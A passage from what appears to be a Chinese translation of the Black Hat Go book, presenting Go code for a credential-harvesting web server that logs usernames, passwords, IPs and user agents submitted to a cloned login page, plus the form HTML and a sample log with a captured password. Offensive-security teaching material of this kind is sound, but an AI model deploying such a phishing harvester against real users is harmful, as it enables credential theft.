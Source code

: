 ```go
	log.WithFields(log.Fields{
		"time":       time.Now().String(),
		"username":   r.FormValue("_user"),
		"password":   r.FormValue("_pass"),
		"user-agent": r.UserAgent(),
		"ip_address": r.RemoteAddr,
	}).Info("login attempt")
	http.Redirect(w, r, "/", 302)
}

func main() {
	fh, err := os.OpenFile("credentials.txt", os.O_CREATE|os.O_APPEND|os.O_WRONLY, 0600)
	if err != nil {
		panic(err)
	}
	defer fh.Close()
	log.SetOutput(fh)
	r := mux.NewRouter()
	r.HandleFunc("/login", login).Methods("POST")
	r.PathPrefix("/").Handler(http.FileServer(http.Dir("public")))
	log.Fatal(http.ListenAndServe(":8080", r))
}
```
代码 4-8: Credential-harvesting 服务 (https://github.com/blackhat-go/bhg/ch-4/credential_harvester/main.go/)

值得注意的第一件事是导入`github.com/Sirupsen/logrus`包。这是一个日志包，用来代替Go的`log`包。该包支持更多的日志配置选型来更好地处理错误。使用该包前需要先运行`go get`获取。

下一步，定义`login()`处理函数。希望这是个熟悉的模式。在该函数里，使用` log.WithFields() `记录捕获的数据。显示当前时间，请求者的用户带来，IP地址。也调用`FormValue(string)`捕获提交的`username (_user)`和`password (_pass)`的值。从`index.html `中获取这些值，并且通过定位表单的输入元素来查找`username`和`password`。服务需要明确地与存在于登录表单中的字段名称保持一致。

下面的片段是从`index.html`中提取的，显示相关的输入项，为了清晰起见元素名称加粗:
 ```html
<td class="input"><input name="_user" id="rcmloginuser" required="required" size="40" autocapitalize="off" autocomplete="off" type="text"></td>
<td class="input"><input name="_pass" id="rcmloginpwd" required="required" size="40" autocapitalize="off" autocomplete="off" type="password"></td>
 ```

 在`main()`函数中，先打开文件用来保存捕获的数据，然后使用`log.SetOutput(io.Writer)`，传入刚创建的文件柄来配置日志，以便将数据写到文件中。接下来创建新路由，并加上处理函数`login()`。

 启动服务之前，还要做一件看起来陌生的事情：告诉路由支持文件夹里的静态文件。这样Go服务就好明确地知道静态文件（图像， JavaScript，HTML）的位置。Go简化了这一过程，并提供了针对遍历目录攻击的保护。由里而外，使用`http.Dir(string)`定义希望提供文件的目录。然后将其传入到`http.FileServer(FileSystem)`，这样就为该目录创建了一个`http.Handler`。使用`PathPrefix(string)`将其加到路由上。使用`/`作为路径前缀来匹配任何尚未找到匹配的请求。注意，默认情况下从`FileServer`返回的处理器支持目录索引。这可能会泄露某些信息。当然也可以将其禁用，但是这里先不涉及了。

 最后，像之前那样启动服务。构建并执行代码4-8中的代码之后，打开浏览器并浏览`http://localhost:8080`。尝试在表单中提交`username 和 password`。然后回到终端退出程序，查看`credentials.txt`显示如下：
 ```shell
$ go build -o credential_harvester
$ ./credential_harvester
^C
$ cat credentials.txt
INFO[0038] login attempt
ip_address="127.0.0.1:34040" password="p@ssw0rd1!" time="2020-02-13 21:29:37.048572849 -0800 PST" user-agent="Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:51.0) Gecko/20100101 Firefox/51.0" username=bob
 ```
